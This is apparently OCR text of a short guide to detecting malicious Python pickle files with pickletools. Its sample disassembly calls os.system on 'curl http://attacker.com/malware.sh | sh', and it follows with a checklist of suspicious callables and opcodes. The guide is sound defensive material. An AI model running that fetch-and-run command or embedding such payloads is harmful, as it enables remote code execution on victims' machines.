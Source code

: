DETECTING POISONED Pickles

If you have '.pkl or .pickle' files and you need to analyze or detect malicious intent - you can;
 
1  . Static Analysis of the Pickle File
= use Python's built-in pickletools to disassemble the pickle bytecode:

{ bash
    python -m pickletools malicious_task.pickle
}
It outputs a human-readable version like:

GLOBAL 'os system'
STRING 'curl http://attacker.com/malware.sh | sh'
TUPLE 
REDUCE
STOP

BEWARE - If you see: 
- os.system, subprocess, eval, exec, __import__, etc.
- REDUCE or GLOBAL opcodes with suspicious callables

-> The pickle is likely malicious.